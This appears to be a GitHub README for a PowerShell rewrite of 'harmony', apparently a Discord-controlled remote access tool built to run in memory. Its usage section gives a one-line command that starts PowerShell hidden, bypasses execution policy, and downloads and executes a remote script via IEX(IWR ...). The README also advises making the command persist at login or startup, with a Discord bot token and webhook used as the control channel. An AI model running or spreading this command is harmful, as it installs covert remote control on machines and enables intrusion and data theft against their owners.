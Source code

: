 # This code is in the alpha stage and currently untested. Not suitable for real usage.

A PowerShell rewrite of the original Python code, designed to run directly in memory for greater efficiency. The PowerShell script is approximately 4 KB, significantly smaller than the ~20 MB executable generated by Python Nuitka*. The PowerShell version is also easier to update.

*While the Python code itself is around 3.5 KB, this doesn’t account for the necessary packages, nor does it consider that Python is often not pre-installed on Windows. Nuitka would need to be used to compile the code into an executable for universal compatibility across all supported Windows systems.

### **Usage Instructions:**

To execute the script, run the following command (preferably with persistence for automatic execution, such as a batch file or similar method at login or startup) on the remote computer you own or have permission to use, ensuring you replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1'-UseBasicParsing);exit"
```
